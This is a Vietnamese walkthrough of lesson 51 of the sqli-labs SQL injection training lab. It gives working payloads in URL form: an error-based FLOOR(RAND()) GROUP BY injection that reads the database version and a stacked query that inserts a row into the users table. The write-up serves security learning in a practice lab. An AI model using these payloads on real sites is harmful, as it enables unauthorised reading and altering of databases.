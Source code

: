 # Những việc làm được với lesson-51
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-51

![](../images/lesson51/screen.png)

Ta sẽ làm như những bài trước là ta sẽ thử nhập giá trị và thêm giá trị đặc biệt 

```
192.168.80.225/sqli-labs/Less-51/?sort=1'
```

![](../images/lesson51/screen_1.png)

Nó đã xuất ra màn hình lỗi của DB chứng tỏ rằng ta có thể sử dụng được error-base. Ta sẽ đi tìm cấu trúc của nó 

1. Cấu trúc câu truy vấn 

```
192.168.80.225/sqli-labs/Less-51/?sort=1' --+
```

![](../images/lesson51/screen_3.png)

2. Sử dụng error-base 

```
192.168.80.225/sqli-labs/Less-51/?sort=1'%20 and (SELECT 0 FROM (SELECT count(*), CONCAT((select @@version), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/lesson51/screen_2.png)

Tương tự như thế ta sẽ thay các truy vấn `version` thành các dữ liệu khác mà ta muốn dần dần ta sẽ có thể đọc được hết dữ liệu của bài này 

3. Sử dụng insert vào trong DB 

Ở bài này ta có thể insert vào được vì trong cấu trúc của bài có hàm cho phép ta sử dụng nhiều câu lệnh cùng lúc nên ta sẽ dùng câu lệnh sau 

```
192.168.80.225/sqli-labs/Less-51/?sort=1' ; insert into users values (51,'test','test') --+
```

![](../images/lesson51/screen_4.png)

